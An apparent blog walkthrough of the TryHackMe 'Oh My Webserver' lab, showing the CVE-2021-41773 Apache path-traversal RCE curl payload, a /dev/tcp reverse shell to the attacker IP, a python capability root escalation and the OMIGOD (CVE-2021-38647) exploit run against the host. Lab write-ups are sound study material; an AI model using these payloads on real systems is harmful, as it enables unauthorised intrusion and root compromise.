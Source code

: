 ```yaml
---
title: TryHackMe Oh My Webserver
date: 2022-03-09T10:50:11+05:30
lastmod: 2022-03-09T10:50:11+05:30
author: Animesh Roy
avatar: /img/avatar.jpeg
authorlink: https://bit.ly/34sGFiK
cover: /img/ohmyweb.png # for tryhackMe
simg: /img/ohmyweb.png

categories:
  - TryHackMe
tags:
  - tryhackme
  - rooms
  - thm

draft: false
description: Try Hack Me Room oh-My-Webserver solved by Animesh Roy. this is a walkthough. read more...

---
```


## OverView

This is a free room, which means anyone can deploy virtual machines in the room (without being subscribed)! 1682 users are in here and this room is 152 days old.

|||
|---|---|
| <script src="https://tryhackme.com/badge/434937"></script>| <a class="twitter-follow-button" href="https://twitter.com/anir0y" data-size="large"> Follow @anir0y<a>|
|oh-My-Webserver|![logo](https://tryhackme-images.s3.amazonaws.com/room-icons/c1833021c98fa6c74fc125f4b34741ca.png)|
| <b> oh-My-Webserver [FREE] </b>| [oh-My-Webserver](https://tryhackme.com/room/ohmyweb)|

## recon

### let's start with Nmap

```nmap
sudo nmap -sC -sV -oA initial-s1 10.10.216.165 -vv -Pn -n 

Starting Nmap 7.60 ( https://nmap.org ) at 2022-03-09 05:27 GMT
[snip]
Not shown: 998 filtered ports
Reason: 998 no-responses
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.49 ((Unix))
|_http-favicon: Unknown favicon MD5: 02FD5D10B62C7BC5AD03F8B0F105323C
| http-methods: 
|   Supported Methods: POST OPTIONS HEAD GET TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.49 (Unix)
|_http-title: Consult - Business Consultancy Agency Template | Home
MAC Address: 02:79:D4:48:D1:C7 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
[snip]

```

Nmap returns 2 port `80` and `22` Both are common ports and we will be start looking in Port 80 as this is where website/web-application will be listening and this is the common attack surface. 

the website looks like this:

![img](https://i.imgur.com/uUAukyM.png)

a static web-page nothing to go through.

let's run gobuster to get the dir structure first. 

returns following:

* assets/ 
* cgi-bin/

let's go with `cgi-bin` as this is where we might get some kind of `RCE` or `LFI` 

trying to access the URL returns `403`

![img](https://i.imgur.com/4AoSFyc.png)

**CVE-2021-41773**

The website is running Apache 2.4.49 and searching for exploits on that leads to `CVE-2021-41773` which is a path traversal and RCE exploit. 

ref : https://github.com/mr-exo/CVE-2021-41773

my payload for POC:

`curl 'http://10.10.216.165/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' --data 'echo Content-Type: text/plain; echo; id'`

![img](https://i.imgur.com/P5bRHxs.png)

**hostname**

![img](https://i.imgur.com/OgxKE0j.png)


this confirms that server is indeed vulnerable for RCE!!!

## gaining first SHELL 

Okay let's get ourselves a shell, I'll be using [shell.anir0y.in](https://bit.ly/3sWdJwk)

* tty 1 : sending payload 

`curl 'http://10.10.216.165/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' --data 'echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/10.17.4.40/9001 0>&1' `

* tty 2: listening for reverse call

`nc -lvnp 9001`

got the call back

![img](https://i.imgur.com/QZ88S9t.png)


## F*cking Docker 

turns out we're inside Doker container 

![img](https://i.imgur.com/x6Fdtvl.png)

and there is no flag inside docker. Bummer 😔

### Docker Enum 

Let's find out if Docker socket is mounted ?

`find / -name docker.sock 2>/dev/null`

well, turns out it's not 

let's do some basic recon before I go full Nmap with it.

|command | results | blah|
|---|:---:|---|
|hostname -I  | `172.17.0.2` | docker reserve IP pool| 
|arp -a | `ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1) at 02:42:59:70:2a:10 [ether] on eth0` | docker gateway most likely the host-mahine|
|getcap -r / 2>/dev/null| `/usr/bin/python3.7 = cap_setuid+ep` | check for capibilities  | 


* suid bin returns nothing so no mentioned in table. 

### Pwn3d Root in Docker ! all prasie to [GTFO bin](https://gtfobins.github.io/gtfobins/python/#capabilities)

`python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'’`

![img](https://i.imgur.com/XkfgiWA.png)

### user flag 

![img](https://i.imgur.com/txEbKgW.png)

---
<!-- Google Ads -->
<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->

---

## ROOT ENUM 

running a web-server that have following serving at `10.17.4.40:80` :

* [nmap static binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap)
* [CVE-2021-38647.py](https://raw.githubusercontent.com/AlteredSecurity/CVE-2021-38647/main/CVE-2021-38647.py)

### uploading nmap 

`curl http://10.17.4.40/nmap -o /tmp/nmap` 

scan for all open ports in docker:



```bash
nmap 172.17.0.1 -p- --min-rate 5000
Nmap scan report for ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1)
Host is up (0.00042s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
```

got 2 unidentied ports one `open` one `closed`. let's start digging more for the open port. looks like `winrm` ?? but this is linux box so that's makes zero sense. 

### CVE-2021-38647;  OMIGOD on Azure UNIX/Linux VMs!

I had a little idea what OMI exploit is, kudos to `ippsec` and this github repo comes in handy with python exploit. 

https://github.com/AlteredSecurity/CVE-2021-38647

## PWN3ED R00T 

```bash
daemon@4a70924bafa0:/tmp$ python3 CVE-2021-38647.py -t 172.17.0.1 -c 'whoami;pwd;id;hostname;uname -a;cat /root/root*'
root
/var/opt/microsoft/scx/tmp
uid=0(root) gid=0(root) groups=0(root)
ubuntu
Linux ubuntu 5.4.0-88-generic #99-Ubuntu SMP Thu Sep 23 17:29:00 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
THM{FLAG_CONTENT}
```

## Conclusion 

well this is a fun box to play around. I did stucked multiple times before figuring out how to get root and YES!! I did try enumrating winrm stuffs before realising that's not gonna work and then looked for OMI Exploit. 


<!-- Google Ads -->

<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->


<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="anir0y" data-description="Support me on Buy me a coffee!" data-message="" data-color="#5F7FFF" data-position="Right" data-x_margin="18" data-y_margin="18"></script>

<!-- EOF -->
